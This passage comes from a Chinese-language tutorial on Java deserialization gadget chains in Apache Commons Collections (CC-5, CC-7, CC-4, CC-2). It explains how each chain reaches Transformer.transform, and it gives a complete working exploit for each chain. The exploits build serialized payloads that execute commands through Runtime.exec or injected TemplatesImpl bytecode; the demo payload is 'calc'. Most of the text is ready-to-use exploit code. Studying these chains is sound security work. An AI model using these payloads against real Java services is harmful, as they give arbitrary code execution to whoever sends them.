        Field tfactoryField = templatesClass.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        templates.newTransformer();
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},invocationHandler);
        Object newInstance = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

        serialize(newInstance);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
```

## CC-5分析

### 分析过程

CC-5就是接住了CC-1铺好的路，我们先来看一下TiedMapEntry类中的toString方法

```plain
public String toString() {
        return getKey() + "=" + getValue();
    }
```

调用了getValue()方法

```plain
public Object getValue() {
        return map.get(key);
    }
```

getValue()里面有个map.get(key),而这个map.get就可以嫁接我们在cc1中讲到的LazyMap.get这个思路。

```plain
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
```

在该类的构造方法传入map，然后我们在寻找哪里readObject方法调用了toString，

BadAttributeValueExpException类的readObject中有调用val成员变量的toString方法。val成员变量是私有属性，我们可以通过反射修改成TiedMapEntry的实例对象。即可完成调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155244-20255d0c-8455-1.png)

到这里，我们的入口的地放就解决了，接下来我们嫁接cc1中的LazyMap.get这个思路从而写出完整的调用链。

### 完整exp

```plain
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);

        Map uselessMap = new HashMap();
        Map lazyMap = LazyMap.decorate(uselessMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"lituer");//实例化TiedMapEntry，构造方法map传入lazyMap

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);//入口      

        //反射修改val
        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);
        serialize(badAttributeValueExpException);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-7分析

### 分析过程

CC-7将AnnotationInvocationHandler类换成了HashTable，最后同样是执行得lazyMap

我们先先来看一下HashTable的readObject方法

我们直接跟进一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155252-250ed780-8455-1.png)

通过for循环，将序列化流中得key和value读取出来传入reconstitutionPut

跟进reconstitutionPut

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155256-27542f22-8455-1.png)

这里我们可以看的，该方法下先对key求hash然后，`int index = (hash & 0x7FFFFFFF) % tab.length;`通过与操作（AND）将哈希码与一个掩码`0x7FFFFFFF`相与，将哈希码限制在正整数范围内。然后通过取模运算计算出键在桶数组中的索引。`for (Entry<?,?> e = tab[index] ; e != null ; e = e.next)`：遍历位于特定索引处的桶中的链表，查找是否已经存在具有相同哈希码和键的条目。最后`if ((e.hash == hash) && e.key.(key))`调用到equals，

这里将键值设置成LazyMap，LazyMap得服了中存在equals

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155300-29c3240c-8455-1.png)

LazyMap得父类AbstractMapDecorator调用了map的get方法，如果说这里得map是LazyMap就可以嫁接LazyMap.get。但是我们看上面得分析，如果我们像要调用e.key.(key)就必须要构造两个hashcode相同得HashTable。

在hashCode这个方法中，当我们传入两个字符得时候，加密就变成了`31*ASCII(s1[0]) + ASCII(s1[1])`

我们只要构造两个这个数值相同得字符串就可以绕过

```plain
public int hashCode() {
        int h = hash;
        if (h == 0 && value.length > 0) {
            char val[] = value;

            for (int i = 0; i < value.length; i++) {
                h = 31 * h + val[i];
            }
            hash = h;
        }
        return h;
    }
```

完整exp

```plain
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeformers = new Transformer[]{new
                ConstantTransformer(2)};
        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,
                        Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,
                        Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new
                        Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new
                ChainedTransformer(fakeformers);

        Map innerMap1 = new HashMap();
        innerMap1.put("pP", 1);
        Map innerMap2 = new HashMap();
        innerMap2.put("oo", 1);

        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);
        lazyMap2.remove("pP");

        Class clazz = ChainedTransformer.class;
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transforms);
        serialize(hashtable);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-4分析

```plain
我们已经讲完了CC-1.3.5.6.7五条链子，测试版本均为commons-collections3.2.1，而CC-2和CC-4都是针对commons-collections4的版本做成的攻击链。
```

我们还是那个思路，既然是涉及到commons-collections那就肯定逃离不了Transformer#transform()，cc链子主要过程就是从Serializable#readObject()到Transformer#transform()的历程

第一步寻找哪里调用了同名函数transform()

找到TransformingComparator类下的compare方法，compare方法调用了transformer成员变量的transform方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155310-3022799c-8455-1.png)

再看构造方法处，两次使用构造方法传入transformer成员变量

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155314-327ca050-8455-1.png)

然后我们在找那个readObject方法调用了compare使链子串联起来，

### PriorityQueue

在Java中，PriorityQueue 类是一个实现了优先队列数据结构的类。优先队列是一种特殊的队列，其中的元素按照一定的优先级顺序被处理。通常情况下，优先级高的元素会在队列中被优先处理。

PriorityQueue 类的作用是提供了一种能够高效地管理具有优先级的元素的数据结构。它基于堆（heap）数据结构实现，这使得插入、删除最小/最大元素的操作具有较低的时间复杂度。

而在这个类中的readObject调用了heapify方法，heapify方法调用了siftDown方法，siftDown方法方法调用了siftDownUsingComparator方法，siftDownUsingComparator方法调用了compare

```plain
PriorityQueue.readObject->heapify->siftDown->siftDownUsingComparator->comparator.compare,(TransformingComparator#compare)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116155321-36b4f7b2-8455-1.png)

PriorityQueue的构造函数一个要传入两个参数，一个是，另一个是变量comparator，成员变量comparator取值于他我们直接就让人等于`new TransformingComparator(chainedTransformer);`即可

不过我们还要注意的是在heapify函数先得for语句，默认情况下得size是零，要int i = (size >>> 1) - 1大于等于0才会执行下面得代码

```plain
private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

所以说size最少是2才会触发排序和比较。使用PriorityQueue.add()

还要注意得问题是在序列化之前使用PriorityQueue.add()会提前进入到siftDownUsingComparator调用到comparator.compare，使得代码抛出异常，所以我们要在进行add之前将我们传入得comparator为无效值，add完之后再修改回来。

### 完整exp

```plain
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"lituer");


        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);


        InvokerTransformer<Object,Object> invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,invokerTransformer);


        serialize(priorityQueue);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-2分析

结合CC-2，CC-4就是把Transformer换成了InstantiateTransformer，改用TrAXFilter的构造方法调用templates的newTransformer方法。

### 完整exp

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        TemplatesImpl Templates = new TemplatesImpl();

        Class templatesClass = Templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"lituer");

        Field bytecodeField = templatesClass.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));

        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer

        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(Templates);
        priorityQueue.add(Templates);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,chainedTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```
